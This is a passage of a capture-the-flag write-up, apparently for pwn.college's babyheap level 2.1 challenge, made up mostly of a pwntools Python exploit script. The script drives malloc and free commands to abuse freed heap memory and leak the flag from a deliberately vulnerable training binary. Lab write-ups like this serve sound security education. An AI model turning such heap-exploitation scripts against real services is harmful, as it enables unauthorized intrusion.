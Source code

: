 参见 [Level 2.0](#level-20)。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    context,
    gdb,
    log,
    process,
    remote,
)

context(log_level="debug", terminal="kitty")

FILE = "./babyheap_level2.1"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def construct_payload():
    return [
        (b"malloc", b"1337"),
        (b"free", None),
        (b"read_flag", None),
        (b"puts", None),
    ]


def attack(target, payload):
    try:
        for cmd, arg in payload:
            target.sendlineafter(b": ", cmd)

            if arg is not None:
                target.sendlineafter(b": ", arg)

        response = target.recvall(timeout=0.1)

        if b"pwn.college{" in response:
            return True
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")
```
